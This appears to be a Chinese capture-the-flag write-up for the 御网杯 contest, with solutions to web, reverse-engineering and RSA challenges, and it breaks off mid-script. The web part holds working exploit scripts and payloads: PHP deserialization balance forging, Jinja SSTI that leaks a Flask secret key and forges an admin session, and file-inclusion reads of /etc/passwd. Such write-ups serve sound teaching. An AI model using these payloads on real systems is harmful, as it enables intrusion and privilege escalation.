# 御网杯

# Web

## WEB-Snake_Game

### 题目截图



### 解题思路

打开首页后，页面只有一个 Snake Game，前端逻辑全写在页面内联 JavaScript 里。关键点在这个函数：

```js
function checkWin(s) {
    let formData = new FormData();
    formData.append('score', s);
    fetch('index.php', { method: 'POST', body: formData })
    .then(r => r.json())
    .then(data => {
        if(data.status === 'success') {
            msgEl.innerText = data.flag;
        }
    });
}
```

可以看到：

1. 游戏结束后，前端只是把 score 提交给 index.php

2. 服务端返回 JSON

3. 前端直接把返回的 flag 显示出来

这说明核心漏洞是：后端只校验提交的分数，没有校验分数是否真的通过游戏产生

利用方式

直接伪造一个 score=300 的请求即可，然后拿到flag。




## WEB-PHP_Payment

### 题目截图


### 解题思路

先审附件源码，关键点有两处。

1. 在 apply_coupon.php 中，服务端会对用户提交的 coupon 参数先做 base64_decode()，随后直接执行 unserialize()：

```text
$decoded = base64_decode($couponData);
$promo = @unserialize($decoded);
```

这意味着这里存在用户可控的 PHP 反序列化。

2. 在 models.php 中定义了 PromoManager 类，它的析构函数会把对象属性 promo_credit 直接累加到 session 余额：

```text
function __destruct() {
    if(isset($this->promo_credit) && is_numeric($this->promo_credit)) {
        $_SESSION['balance'] += intval($this->promo_credit);
    }
}
```

也就是说，只要我们伪造一个 PromoManager 对象，并把 promo_credit 设成足够大的数字，在反序列化结束、对象销毁时就能给自己“充值”。

再看 buy.php，其中 flag 商品价格是 99999 金币：

初始余额只有 20，因此正常无法购买，但通过优惠券反序列化可以直接把余额加到足够大。

利用链非常简单：

1. 访问首页，拿到一个新的 PHPSESSID

2. 构造 PromoManager 对象，令 promo_credit=100000

3. 将该对象序列化后再 Base64 编码，作为 coupon 提交给 /api/apply_coupon.php

4. 同一 session 下请求 /buy.php，传 item=flag

5. 余额足够后成功购买，返回 flag

构造 Payload

PromoManager 有两个公开属性：

- promo_credit

- promo_code

因此可构造如下序列化字符串：

```text
O:12:"PromoManager":2:{s:12:"promo_credit";i:100000;s:10:"promo_code";s:3:"VIP";}
```

对应 Base64 为：

```text
TzoxMjoiUHJvbW9NYW5hZ2VyIjoyOntzOjEyOiJwcm9tb19jcmVkaXQiO2k6MTAwMDAwO3M6MTA6InByb21vX2NvZGUiO3M6MzoiVklQIjt9
```

用下面的脚本

```python
from __future__ import print_function

import base64
import re
import sys

try:
    from urllib.request import HTTPCookieProcessor, Request, build_opener
    from urllib.parse import urlencode
    from http.cookiejar import CookieJar
except ImportError:
    from urllib2 import HTTPCookieProcessor, Request, build_opener
    from urllib import urlencode
    from cookielib import CookieJar

TARGET = sys.argv[1] if len(sys.argv) > 1 else "http://120.27.146.76:13228"

def build_coupon(credit=100000, code="VIP"):
    payload = (
        'O:12:"PromoManager":2:{{'
        's:12:"promo_credit";i:{credit};'
        's:10:"promo_code";s:{code_len}:"{code}";'
        "}}"
    ).format(
        credit=credit,
        code_len=len(code),
        code=code,
    )
    return base64.b64encode(payload.encode()).decode()

def extract_flags(text):
    return re.findall(r"flag**\{**[^}]+**\}**", text)

def decode_text(data):
    if hasattr(data, "decode"):
        return data.decode("utf-8", "ignore")
    return data

def http_get(opener, url):
    req = Request(url)
    return decode_text(opener.open(req, timeout=10).read())

def http_post(opener, url, data):
    body = urlencode(data)
    if hasattr(body, "encode"):
        body = body.encode("utf-8")
    req = Request(url, data=body)
    return decode_text(opener.open(req, timeout=10).read())

def main():
    jar = CookieJar()
    opener = build_opener(HTTPCookieProcessor(jar))

    http_get(opener, "{}/".format(TARGET))

    coupon = build_coupon()
    resp = http_post(
        opener,
        "{}/api/apply_coupon.php".format(TARGET),
        {"coupon": coupon},
    )
    print("[*] apply_coupon response:", resp)

    resp = http_post(
        opener,
        "{}/buy.php".format(TARGET),
        {"item": "flag"},
    )
    print("[*] buy response:", resp)

    flags = extract_flags(resp)
    if not flags:
        print("[-] No flag found.")
        return

    print("[+] Found flags:")
    for idx, flag in enumerate(flags, 1):
        print("  {}. {}".format(idx, flag))

    print("[+] Likely real flag: {}".format(flags[0]))

if __name__ == "__main__":
    main()

```

运行拿到flag


## WEB-TaxSystem_SSTI

### 题目截图



### 解题思路

在 init_db.py 可以看到系统初始化了一个账号：

```text
admin / 123456
```

在 app.py 的 preview() 逻辑里，只有当 state == 'AUDIT_PENDING' 时，才会走“官方审计报告”模板渲染分支。这个分支把 custom_footer 直接拼进 HTML，再交给 app.py (line 127) 的 render_template_string() 渲染，这就形成了标准 SSTI。

黑名单在 app.py ，虽然过滤了 __、引号、request、session 等关键字，但没有过滤 config，所以 {{config}} 可以直接用。

此外，app.py  的 /admin/vault 只校验：

```text
if session.get('role') != 'tax_inspector':
```

也就是说，只要能伪造 Flask session，就能越权进后台。

要注意一点：config.py 里的默认 SECRET_KEY 不是远端实际值，所以不能直接拿源码默认值伪造 cookie，必须先通过 SSTI 泄露线上真实密钥。

接下来我们去利用

1. 登录系统，账号密码为：

```text
admin / 123456
```



2. 通过 /api/import 修改自己的 profile：

```json
{
  "profile_id": 1,
  "data": {
    "state": "AUDIT_PENDING",
    "custom_footer": "{{config}}"
  }
}
```

3. 访问 /preview/1，页面会回显 Flask 配置，拿到远端真实密钥：

```text
SECRET_KEY = secret_tax_key_2026_xoxo
```

4. 用这个 SECRET_KEY 伪造 Flask session，把会话内容改成：

```text
{"role": "tax_inspector", "user_id": 1}
```

5. 带着伪造后的 session cookie 访问：

```text
/admin/vault
```

可以用下面这个脚本

```python
import re
import html
import requests
from flask import Flask
from flask.sessions import SecureCookieSessionInterface


BASE = "http://120.27.146.76:13583"
USERNAME = "admin"
PASSWORD = "123456"
PROFILE_ID = 1


def get_secret_key():
    s = requests.Session()

    r = s.post(
        BASE + "/login",
        data={"username": USERNAME, "password": PASSWORD},
        allow_redirects=True,
        timeout=10,
    )
    if r.status_code != 200:
        raise RuntimeError(f"login failed: {r.status_code}")

    r = s.post(
        BASE + "/api/import",
        json={
            "profile_id": PROFILE_ID,
            "data": {
                "state": "AUDIT_PENDING",
                "custom_footer": "{{config}}",
            },
        },
        timeout=10,
    )
    if r.status_code != 200:
        raise RuntimeError(f"import failed: {r.status_code} {r.text}")

    r = s.get(BASE + f"/preview/{PROFILE_ID}", timeout=10)
    text = html.unescape(r.text)

    m = re.search(r"SECRET_KEY': '([^']+)'", text)
    if not m:
        raise RuntimeError("SECRET_KEY not found in preview response")

    return m.group(1)


def forge_session(secret_key):
    app = Flask(__name__)
    app.secret_key = secret_key
    serializer = SecureCookieSessionInterface().get_signing_serializer(app)
    return serializer.dumps({"role": "tax_inspector", "user_id": 1})


def get_flag(cookie):
    s = requests.Session()
    s.cookies.set("session", cookie)

    r = s.get(BASE + "/admin/vault", timeout=10)
    if r.status_code != 200:
        raise RuntimeError(f"vault request failed: {r.status_code}")

    m = re.search(r'<div class="flag-box">\s*(.*?)\s*</div>', r.text, re.S)
    if not m:
        raise RuntimeError("flag not found in response")

    return m.group(1).strip()


def main():
    secret_key = get_secret_key()
    print(f"[+] SECRET_KEY: {secret_key}")

    cookie = forge_session(secret_key)
    print(f"[+] forged session: {cookie}")

    flag = get_flag(cookie)
    print(f"[+] flag: {flag}")


if __name__ == "__main__":
    main()
```




## WEB-Enterprise_OA

### 题目截图



### 解题思路

访问首页可以看到导航链接使用了 `module` 参数：

```text
/?module=public_notices.php
/?module=about.php
/?module=contact.php
```

说明页面内容很可能是通过 `include\(\)` 动态加载的，因此优先测试文件包含。

先尝试普通目录穿越：

```text
/?module=../../etc/passwd
```

返回报错中可以看到，服务端实际尝试包含的是：

```text
include(etc/passwd)
```

说明 `\.\./` 被过滤掉了，继续读取首页源码：

```text
/?module=php://filter/convert.base64-encode/resource=/var/www/html/index.php
```

解码后关键代码如下：

```php
<?php
$module = isset($_GET['module']) ? $_GET['module'] : 'public_notices.php';
$module = str_replace('../', '', $module);
?>
...
<?php include($module); ?>
```

问题就在这里：开发者只替换了字符串 `\.\./`，但没有限制绝对路径。因此虽然相对路径穿越被“抹掉”了，绝对路径仍然可以直接包含系统文件。



1. 验证任意文件读取

请求：

```text
/?module=/etc/passwd
```

成功回显系统账户内容，证明绝对路径包含可用。

2. 读取 flag

结合常见 CTF 文件位置，尝试直接读取：

```text
/?module=/flag.txt
```

成功得到 flag。




# Re

## rerere

### 题目截图



### 解题思路

ida打开附件，主校验函数在sub_1400014FB



跳转过来



加密逻辑在sub_140001480



`SBOX` 可逆，直接对每个位置求逆即可：

```text
input[i] = INV_SBOX[ EXPECTED[i] ] ^ XORKEY[i % 8]
```

关键数据



解题脚本

```python
#!/usr/bin/env python3
expected = bytes.fromhex(
    "a3 5b 4c 0a 0e 98 84 da"
    "14 e7 0b 91 53 49 4f b6"
    "a9 ac 0b 49 14 97 4f d5"
    "b1 96 75 f6 3b a7 84 c5"
    "a9 c9 06 36 c6 6c".replace(" ", "")
)

xorkey = bytes.fromhex("b9 cd ce 30 b8 61 4e aa".replace(" ", ""))

sbox = bytes.fromhex("""
c2 23 97 49 83 f6 d3 a7 eb bf 78 c3 29 56 d2 1a
13 bc 21 6a 37 8e 5f 0c b4 46 de e4 6c a2 66 30
0f a4 bb 8c 09 4b 3d 32 42 55 2d 4f f9 77 1b 74
1f 71 7b 9d 73 c4 ab d0 f3 c1 88 07 dc ce ef c0
72 4a 27 81 9b ee c7 28 26 5a 94 54 70 d1 e9 c8
98 36 91 41 b8 3a 79 0a 08 e5 af 80 24 ae 00 19
cc 7a f7 51 7d 69 ec 03 65 25 1c 01 f5 e6 bd d9
59 fe 92 b0 10 6f f0 e3 9f ad 84 f4 a5 33 35 48
53 b1 e0 d8 05 38 18 68 a9 14 c6 3f 61 8a 31 3b
ba 2b 4e e2 57 9a f1 ea 64 7e a0 93 b6 da 60 2e
1d 5b 82 34 6d fc cf 7f e7 96 67 43 06 44 c9 4c
40 db fd 4d b5 ed 39 2c b3 17 9e cd fa 6b ca 87
8f 9c 89 0e 63 45 86 aa 5e 95 16 c5 d5 2f a1 f8
99 ff 3c 0d 3e d4 04 76 d7 47 20 8d df 5c 7c a3
1e 8b 15 b9 a8 cb 22 a6 52 d6 fb 5d dd b2 6e e8
f2 e1 2a 58 62 12 11 50 75 b7 ac 90 0b 85 02 be
""".replace("\n", "").replace(" ", ""))

assert len(set(sbox)) == 256, "SBOX 不是完整置换"

inv_sbox = [0] * 256
for i, v in enumerate(sbox):
    inv_sbox[v] = i

flag = bytes(inv_sbox[e] ^ xorkey[i % 8] for i, e in enumerate(expected))

for i, e in enumerate(expected):
    assert sbox[flag[i] ^ xorkey[i % 8]] == e

print(flag.decode())

```



flag{1470e2b8be617231cef8d657f4a1cba2}


## 字节码迷踪

### 题目截图



### 解题思路

py逆向，用die查看py版本是3.12



直接用在线网站反编译一下https://pylingual.io/



得到py源码

```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: 'temp_challenge.py'
# Bytecode version: 3.12.0rc2 (3531)
# Source timestamp: 2026-04-05 13:07:22 UTC (1775394442)

import base64
def decrypt_flag(encoded_data, key):
    decoded = base64.b64decode(encoded_data)
    return ''.join((chr(b ^ key) for b in decoded))
def main():
    encoded_flag = 'CAIPCRVeABgUC1wCX0NXHh1YQx4cBFZDBV1bC0MCWw9fHF5WXV8MBx4T'
    xor_key = 110
    user_input = input('请输入flag: ').strip()
    correct_flag = decrypt_flag(encoded_flag, xor_key)
    if user_input == correct_flag:
        print('正确！')
    else:
        print('错误！')
if __name__ == '__main__':
    main()
```

加解密对称(异或),直接拿密文跑一遍即可:

**解题脚本**

```typescript
import base64

encoded_flag = 'CAIPCRVeABgUC1wCX0NXHh1YQx4cBFZDBV1bC0MCWw9fHF5WXV8MBx4T'
xor_key = 110

decoded = base64.b64decode(encoded_flag)
flag = ''.join(chr(b ^ xor_key) for b in decoded)
print(flag)
```



flag{0nvze2l1-9ps6-prj8-k35e-l5a1r0831bip}


## ChaCha20

### 题目截图



### 解题思路

jadx打开后，直接跳转到mainactivity

验证按钮回调走这里



`NativeBridge` 注册了一堆 native 方法，但 `MainActivity` 只调了 `c\(String\)`，其它 `ab/cd/dc` 都是噪音。



`libmyapplication\.so` 没导出 `Java\_…\_c` 这种符号，是用 `RegisterNatives` 动态注册的。`\.data\.rel\.ro` 起头三个 12 字节的 `JNINativeMethod` 结构体：





解出三项：

|name|signature|fnPtr|
|---|---|---|
|`a`|`\(\[B\)\[B`|`0x250b0`|
|`b`|`\(\[B\)\[B`|`0x251f0`|
|`c`|`\(Ljava/lang/String;\)Z`|`0x25330`|

0x25330是目标函数

`c\(\)` 做 4 件事：

1. `GetStringUTFChars` 取出用户输入；

2. 把输入字节当明文喂给「加密+hex」函数 `sub\_25740`，得到 `out\_hex`（小写十六进制字符串）；

3. 把 `out\_hex` 一字节一字节和全局 `g\_target`（`std::vector\&lt;uint8\_t\&gt;`，地址 `0x5a16c`）比较；

4. 完全相等返回 `JNI\_TRUE`，否则 `JNI\_FALSE`。



sub_276f0`看反汇编是个`mov $0x8, %eax; ret`的「常量 8」，但它其实是一个 stub —— 真实的`g_target.size()`是把`vector`的`_end - _begin`拿出来再除以 1。比较循环每轮按`0x40`\-byte 块前进（外层 `25803: cmp $0x40, %eax`），所以一轮匹配 64 字节（密文是 50 字符，刚好够用一轮）

`c\(\)` 的语义就是：`hex\(ChaCha20\(input\)\) == \&\#34;d097c3f6d279df23af24ad35e9e08793831c8e2a22a1b2968b\&\#34;`。

加密+hex 包装函数 \`sub\_25740\`



key和nonce



取 key / nonce 的字节排布

内部一系列 `call 27160`（每次读一个 32-bit 小端 word），把 `\.rodata` 字节按 little-endian 拼成 `state\[4\.\.11\]`（key）和 `state\[13\.\.15\]`（nonce），`state\[12\] = counter`。这正好是 RFC 7539 ChaCha20 的状态布局。



hex字母表



sub_27530`把每个密文字节`b拆成两位：



ChaCha20 block 函数sub_26cc0

`sub\_25740` 在每轮里调一次 `0x26cc0` 生成 64 字节 keystream。这就是标准 ChaCha20 block：



sub_271a0就是 ChaCha20 的 quarter-round（add / xor / rotl 16/12/8/7）。10 次 double-round = 20 round。

目标密文：来自 \`\.init\_array\` 在运行时填充的全局 vector



sub_24be0是真正的填充逻辑：



解题脚本

```python
#!/usr/bin/env python3

KEY = bytes.fromhex(
    "149263a16f2d89cbf0375b1ca94e78d3"
    "226017ee9abc4d0853e1762a8dc4903f"
)
NONCE = bytes.fromhex("44332211abcdef668899aa55")
CIPHERTEXT = bytes.fromhex(
    "d097c3f6d279df23af24ad35e9e08793831c8e2a22a1b2968b"
)
COUNTER = 1  # IETF ChaCha20 默认起始 counter

def rotl32(v, n):
    return ((v << n) & 0xFFFFFFFF) | (v >> (32 - n))

def quarter_round(s, a, b, c, d):
    s[a] = (s[a] + s[b]) & 0xFFFFFFFF; s[d] ^= s[a]; s[d] = rotl32(s[d], 16)
    s[c] = (s[c] + s[d]) & 0xFFFFFFFF; s[b] ^= s[c]; s[b] = rotl32(s[b], 12)
    s[a] = (s[a] + s[b]) & 0xFFFFFFFF; s[d] ^= s[a]; s[d] = rotl32(s[d], 8)
    s[c] = (s[c] + s[d]) & 0xFFFFFFFF; s[b] ^= s[c]; s[b] = rotl32(s[b], 7)

def u32le(b):
    return int.from_bytes(b, "little")

def chacha20_keystream(key, nonce, length, counter=1):
    assert len(key) == 32 and len(nonce) == 12
    out = bytearray()
    bc = counter
    consts = b"expand 32-byte k"
    while len(out) < length:
        state = (
            [u32le(consts[i:i + 4]) for i in range(0, 16, 4)]
            + [u32le(key[i:i + 4]) for i in range(0, 32, 4)]
            + [bc]
            + [u32le(nonce[i:i + 4]) for i in range(0, 12, 4)]
        )
        w = state[:]
        for _ in range(10):  # 20 rounds = 10 double-rounds
            quarter_round(w, 0, 4, 8, 12)
            quarter_round(w, 1, 5, 9, 13)
            quarter_round(w, 2, 6, 10, 14)
            quarter_round(w, 3, 7, 11, 15)
            quarter_round(w, 0, 5, 10, 15)
            quarter_round(w, 1, 6, 11, 12)
            quarter_round(w, 2, 7, 8, 13)
            quarter_round(w, 3, 4, 9, 14)
        for i, word in enumerate(w):
            out.extend(((word + state[i]) & 0xFFFFFFFF).to_bytes(4, "little"))
        bc = (bc + 1) & 0xFFFFFFFF
    return bytes(out[:length])

def chacha20_xor(key, nonce, data, counter=1):
    ks = chacha20_keystream(key, nonce, len(data), counter)
    return bytes(a ^ b for a, b in zip(data, ks))

def main():
    print(f"[+] key      : {KEY.hex()}")
    print(f"[+] nonce    : {NONCE.hex()}")
    print(f"[+] cipher   : {CIPHERTEXT.hex()}")
    print(f"[+] counter={COUNTER}")
    flag = chacha20_xor(KEY, NONCE, CIPHERTEXT, counter=COUNTER)
    try:
        print(f"[+] FLAG     : {flag.decode()}")
    except UnicodeDecodeError:
        print(f"[!] non-utf8 plaintext: {flag!r}")

if __name__ == "__main__":
    main()

```



flag{2023326077889096380}


## DES加密验证

### 题目截图


### 解题思路

主 Activity:DEX 热加载

`com\.cr\.crackme2\.MainActivity\.onCreate\(\)` 调用了 `b\(\)`,关键步骤:



Native 库:

```java
public static native boolean verifyFlag(String str);
static { System.loadLibrary("crackme2"); }
```

**释放出的 wide Activity**

`assets/classes3\.dex` 中的 `com\.cr\.test\.wide` 是真正承担 UI 校验的类:

```java
private boolean callNativeMethod(String str) {
    Class<?> clazz = Class.forName("com.cr.crackme2.MainActivity");
    Method method = clazz.getMethod("verifyFlag", String.class);
    return (Boolean) method.invoke(null, str);
}
```



干扰类:`com\.example\.demo\.\{MathUtils, LibraryBook, ShoppingCart, User, MainActivity, MainActivity2\}` —— 都是与校验无关的样板类,用来扩大 jadx 输出迷惑分析人员。

去ida里面分析so文件

函数注册

```c
// JNI_OnLoad → register_native_methods
RegisterNatives(env, FindClass("com/cr/crackme2/MainActivity"),
                {"verifyFlag", "(Ljava/lang/String;)Z", &verifyFlag}, 1);
```

**`verifyFlag`**** 反编译(关键)**

```c
char verifyFlag(JNIEnv *env, jclass cls, jstring jstr) {
    const char *pcVar1 = env->GetStringUTFChars(jstr, NULL);
    int len_in        = strlen(pcVar1);

    size_t padded_len = 0;
    uchar *padded     = pkcs7_pad(pcVar1, len_in, &padded_len);   // FUN_00034490
    uchar *enc_buf    = malloc(padded_len);
    des_ecb_encrypt(padded, padded_len, (uchar*)"12345678", enc_buf);  // !!! 干扰

    std::string hex;
    bytesToHex(&hex, padded);                                      // 真正比较的源
    int got = std::string::data(&hex);

    char ok = 0;
    for (int i = 0; i < 1; i++) {
        if (std::string_eq(&DAT_00068060 + i*0xc, &hex)) {         // 与全局 EncryptedFlag 比较
            ok = 1; break;
        }
    }
    return ok;
}
```

注意几个反直觉的点:

1. **DES 结果没被使用** —— \`enc\_buf\` 仅 \`free\` 掉,从未参与比较。

2. \`bytesToHex\` 接受的是 **PKCS\#7 填充后的明文**,不是密文。

3. 比较使用 `std::string::operator==`(`FUN\_00034560`),即逐字节相等。

4. 全局对象 `DAT\_00068060`(`EncryptedFlag` 类型)是 `std::string`,内容在构造函数里被静态初始化。

PKCS\#7 填充函数\`FUN\_00034490\`

```c
void *pkcs7_pad(const void *src, int len, size_t *out_len) {
    int pad = 8 - len % 8;            // 即使整除也会再补 8 字节
    *out_len = len + pad;
    void *p = malloc(*out_len);
    memcpy(p, src, len);
    for (int i = len; i < *out_len; i++) ((char*)p)[i] = (char)pad;
    return p;
}
```

标准 PKCS\#7,补到 8 字节倍数。

**\`EncryptedFlag\` 全局对象的初始化**

在 `\.init\_array` 调度的构造函数 `FUN\_00033e40`:

```c
void __cxx_global_var_init() {
    std::string::string(&DAT_00068060,
        "666c61677b623532376532363231313331313334656332323235316366626361"
        "373565386339663561653466343133373138373166643535393131393237663636613162347d0202");
    __cxa_atexit(EncryptedFlag::~EncryptedFlag, ...);
}
```

解题脚本

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-

CMP_TARGET_HEX = (
    "666c61677b623532376532363231313331313334656332323235316366626361"
    "373565386339663561653466343133373138373166643535393131393237663636613162347d0202"
)

def pkcs7_pad(data: bytes, block: int = 8) -> bytes:
    pad_len = block - (len(data) % block)
    return data + bytes([pad_len]) * pad_len

def pkcs7_unpad(data: bytes) -> bytes:
    pad_len = data[-1]
    if pad_len < 1 or pad_len > 8:
        raise ValueError(f"非法的 PKCS#7 填充长度: {pad_len}")
    if data[-pad_len:] != bytes([pad_len]) * pad_len:
        raise ValueError("PKCS#7 填充内容不一致")
    return data[:-pad_len]

def recover_flag() -> str:
    raw = bytes.fromhex(CMP_TARGET_HEX)
    return pkcs7_unpad(raw).decode("ascii")

def verify(flag: str) -> bool:

    padded_hex = pkcs7_pad(flag.encode("utf-8"), 8).hex()
    return padded_hex == CMP_TARGET_HEX

if __name__ == "__main__":
    flag = recover_flag()
    print(f"[+] 还原 flag: {flag}")
    print(f"[+] 长度    : {len(flag)}")

    ok = verify(flag)
    print(f"[+] 模拟校验: {'PASS' if ok else 'FAIL'}")
    assert ok, "回填校验失败,请检查 CMP_TARGET_HEX"

```



flag{b527e2621131134ec22251cfbca75e8c9f5ae4f41371871fd55911927f66a1b4}


# Crypto

## BabyRSA

### 题目截图


### 解题思路

题目给了两个附件

task.py

```python
from Crypto.Util.number import bytes_to_long, getPrime
from secret import flag

m = bytes_to_long(flag)
e = 3

p = getPrime(512)
q = getPrime(512)
n = p * q

c = pow(m, e, n)

print(f"n = {n}")
print(f"e = {e}")
print(f"c = {c}")

```

out.text

```typescript
n = 112236684276598445953470958979974248139305658317743482421936811887828282366740495598766025283574975379354653410041294383732249721913289160553784366226963636561141148428299310897822558962407745549801741467690656825961511511191360890527802201275378106451269606406534901848399667333669874060639983305991244441419
e = 3
c = 2217344750798591625447833487696320861775115646060744565481810923840358354823011100363343264521780315972663215185875986580406759972170037422918646653524839131172834345312234369524761802337273644307475982202699180835279895013740317857205387940896435849998551522519951199597669
```

经典 RSA 小指数（`e = 3`）题型。先看看 `n` 和 `c` 的位数关系：

|值|比特长度|
|---|---|
|`n`|1024|
|`c`|909|

也就是 `c \&lt; n`。这暗示 `m^3` 在没有取模的情况下就已经小于 `n`，于是

直接对 `c` 开三次方就能拿到 `m`，无需分解 `n`。

解题脚本

```typescript
import gmpy2
from Crypto.Util.number import long_to_bytes

n = 112236684276598445953470958979974248139305658317743482421936811887828282366740495598766025283574975379354653410041294383732249721913289160553784366226963636561141148428299310897822558962407745549801741467690656825961511511191360890527802201275378106451269606406534901848399667333669874060639983305991244441419
e = 3
c = 2217344750798591625447833487696320861775115646060744565481810923840358354823011100363343264521780315972663215185875986580406759972170037422918646653524839131172834345312234369524761802337273644307475982202699180835279895013740317857205387940896435849998551522519951199597669

m, exact = gmpy2.iroot(c, e)
assert exact
print(long_to_bytes(int(m)).decode())

```



flag{769cc0209669698952823747f21eb10e}


## ScatterRSA

### 题目截图



### 解题思路

题目给了两个附件

task.py

```python
from secret import flag
from Crypto.Util.number import *
import random

m = bytes_to_long(flag)
e = 3

print(f"e = {e}")

for i in range(3):
    p = getPrime(512)
    q = getPrime(512)
    n = p * q
    a = random.getrandbits(128) | (1 << 127)
    b = random.getrandbits(256) | (1 << 255)
    c = pow(a * m + b, e, n)

    print(f"n{i+1} = {n}")
    print(f"a{i+1} = {a}")
    print(f"b{i+1} = {b}")
    print(f"c{i+1} = {c}")
```

out.text

```typescript
e = 3
n1 = 134590028715846226751903719587861090472772080921099504036178613989523328571021119450984313988905557385036821505121612368860436253713267192159612607745301358472400758433053304358101099945515440169672493726615122471822947908806960237079424527450364377187388434878044214423874958715687632702618242260038201552961
a1 = 173235201602700035769143714622479214858
b1 = 58616053309986169433995951615552358657183395855412447208282770965760612937595
c1 = 50192984704229516422576705848426706185707023557654942997226592852562126143797118081125527050565529571702518296053642057549607538952767595537352818598436177372629946093076195084953301667499579328461288560942915342433209991739202980657987347584757491195480319156057361829134996133204059551472598891366688783755
n2 = 68196420818362667184273231820367250019665598198220107894027697404250798750179650739212752171893537136631632644245299647403521159317636479179387396036378651369427323164026037204640004005081098772718308292781228113356944341374614054386589378286349095152732830327900238600877850386212764491160551279660914970501
a2 = 235763128007574771186749199470667788696
b2 = 82833393375329622580640447653813478693484654663680708964473557677310067110872
c2 = 58727033167047203506164797837999819283982869287436076252773072774355826490167620639330797956244757203726547611149611642979362714607329797512143580714003751905301065313982278186988038708909021000691905664629331025167676669052317049958574849948837597306860613961557323523558290710860835719858942854534226001532
n3 = 104197894722251549417361866562671346718448272653499933412399440512957241054274214931999347021968663121866250705242698152904168891226692027345376090411001289684534871464563352348782346283820734447304134789063563965860082130364230372312070163983650187312362722689902212270815366758596540699197732479604574605717
a3 = 289837185860108823269362666161877095653
b3 = 88038264202304767250178171651729306984925900158278305985019519489525502096874
c3 = 12441437714234741776087648075441633972630237216692770981303759863634569477393643678959437151894987980323367988780311101132662707086178418962311399292280866817688865303206505050428252909551141504556842671029262184318022978671849627397763537173137629868777942717009356259616195047064075877128354789683093509959

```

对脚本进行分析

同一明文 `m`，用 `e=3` 在三个不同模数 `n\_i` 下被加密；

每次先做仿射变换 \`a\_i\*m \+ b\_i\` 再立方 —— 即所谓**线性 padding**；

`a\_i \(\~128 bit\)`、`b\_i \(\~256 bit\)` 都已公开（只是混淆，不是真正的随机化）。

1. **构造同根多项式**

每个密文给出一个以 `m` 为根的多项式：

$f_i(x) = (a_i x + b_i)^3 - c_i \equiv 0 \pmod{n_i}$

2. **化为首一**

在 `Z/n\_i Z` 上把 `f\_i` 除以 `a\_i^3`，得到首一三次多项式：

$\hat f_i(x) = x^3 + 3 b_i a_i^{-1} x^2 + 3 b_i^2 a_i^{-2} x + (b_i^3 - c_i) a_i^{-3} \pmod{n_i}$

3. **CRT 合并**

对系数逐位 CRT 到模 `N = n1 n2 n3`，得到首一多项式 `F\(x\)`，仍以 `m` 为根（mod `N`）。

4. **Coppersmith small root**

`m` 大小 ~256 bit，`N` 大小 ~3072 bit，`X = 2^300` 已是宽松界。用 Howgrave-Graham 格 `dim = 4` 足够：

```text
行 0..2: N * x^i        (i = 0, 1, 2)
行 3   : F(x)
列 j 上整体乘 X^j
```

LLL 后取最短行，按列除回 `X^j` 得到整系数多项式 `g\(x\)`；它在整数上以 `m` 为根。

5. **求整数根**

`g\(x\)` 度数 3，用 `sympy` 求实根（其中一个是大整数），即得 `m`，再 `long\_to\_bytes` 即可。

**解题脚本**

```python

from Crypto.Util.number import long_to_bytes
from fractions import Fraction

try:
    from gmpy2 import mpq as Q, mpz as Z
except ImportError:  # pragma: no cover
    Q = Fraction
    Z = int

import sympy

# --------------------------- exact-rational LLL -----------------------------
def lll(B, delta=Q(3, 4)):
    n = len(B)
    B = [[Z(x) for x in row] for row in B]

    def qdot(u, v):
        s = Q(0)
        for a, b in zip(u, v):
            s += a * b
        return s

    Bs = [None] * n
    mu = [[Q(0)] * n for _ in range(n)]

    def gso():
        for i in range(n):
            Bs[i] = [Q(x) for x in B[i]]
            for j in range(i):
                mu[i][j] = qdot([Q(x) for x in B[i]], Bs[j]) / qdot(Bs[j], Bs[j])
                Bs[i] = [a - mu[i][j] * b for a, b in zip(Bs[i], Bs[j])]

    gso()
    k = 1
    while k < n:
        changed = False
        for j in range(k - 1, -1, -1):
            if abs(mu[k][j]) > Q(1, 2):
                m_kj = mu[k][j]
                q = int(m_kj + Q(1, 2)) if m_kj >= 0 else -int(-m_kj + Q(1, 2))
                if q != 0:
                    B[k] = [a - q * b for a, b in zip(B[k], B[j])]
                    changed = True
        if changed:
            gso()
        if qdot(Bs[k], Bs[k]) >= (delta - mu[k][k - 1] ** 2) * qdot(Bs[k - 1], Bs[k - 1]):
            k += 1
        else:
            B[k], B[k - 1] = B[k - 1], B[k]
            gso()
            k = max(k - 1, 1)
    return [[int(x) for x in row] for row in B]

# ------------------------------ challenge data ------------------------------
e = 3
n1 = 134590028715846226751903719587861090472772080921099504036178613989523328571021119450984313988905557385036821505121612368860436253713267192159612607745301358472400758433053304358101099945515440169672493726615122471822947908806960237079424527450364377187388434878044214423874958715687632702618242260038201552961
a1 = 173235201602700035769143714622479214858
b1 = 58616053309986169433995951615552358657183395855412447208282770965760612937595
c1 = 50192984704229516422576705848426706185707023557654942997226592852562126143797118081125527050565529571702518296053642057549607538952767595537352818598436177372629946093076195084953301667499579328461288560942915342433209991739202980657987347584757491195480319156057361829134996133204059551472598891366688783755

n2 = 68196420818362667184273231820367250019665598198220107894027697404250798750179650739212752171893537136631632644245299647403521159317636479179387396036378651369427323164026037204640004005081098772718308292781228113356944341374614054386589378286349095152732830327900238600877850386212764491160551279660914970501
a2 = 235763128007574771186749199470667788696
b2 = 82833393375329622580640447653813478693484654663680708964473557677310067110872
c2 = 58727033167047203506164797837999819283982869287436076252773072774355826490167620639330797956244757203726547611149611642979362714607329797512143580714003751905301065313982278186988038708909021000691905664629331025167676669052317049958574849948837597306860613961557323523558290710860835719858942854534226001532

n3 = 104197894722251549417361866562671346718448272653499933412399440512957241054274214931999347021968663121866250705242698152904168891226692027345376090411001289684534871464563352348782346283820734447304134789063563965860082130364230372312070163983650187312362722689902212270815366758596540699197732479604574605717
a3 = 289837185860108823269362666161877095653
b3 = 88038264202304767250178171651729306984925900158278305985019519489525502096874
c3 = 12441437714234741776087648075441633972630237216692770981303759863634569477393643678959437151894987980323367988780311101132662707086178418962311399292280866817688865303206505050428252909551141504556842671029262184318022978671849627397763537173137629868777942717009356259616195047064075877128354789683093509959

ns = [n1, n2, n3]
as_ = [a1, a2, a3]
bs = [b1, b2, b3]
cs = [c1, c2, c3]

# ---- 1. f_i(x) = (a_i x + b_i)^3 - c_i, normalised to monic mod n_i --------
monic = []
for n, a, b, c in zip(ns, as_, bs, cs):
    ia = pow(a, -1, n)
    f0 = ((b ** 3 - c) * pow(ia, 3, n)) % n
    f1 = (3 * b * b % n * pow(ia, 2, n)) % n
    f2 = (3 * b * ia) % n
